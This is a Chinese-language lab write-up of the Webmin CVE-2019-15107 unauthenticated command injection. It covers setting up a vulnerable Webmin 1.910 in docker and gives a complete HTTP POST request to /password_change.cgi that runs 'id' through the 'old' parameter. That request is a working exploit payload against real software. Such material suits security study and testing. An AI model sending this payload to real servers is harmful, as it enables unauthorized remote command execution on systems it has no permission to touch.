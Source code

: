 # Webmin 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

参考链接：

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## 环境搭建

Vulhub执行如下命令，启动webmin 1.910：

```
docker-compose up -d
```

执行完成后，访问`https://your-ip:10000`，忽略证书后即可看到webmin的登录页面。

![image-20220302223648200](images/202203022236263.png)

## 漏洞复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是`user=root`），才会进入到修改`/etc/shadow`的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令`id`：

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![image-20220302224129561](images/202203022241640.png)

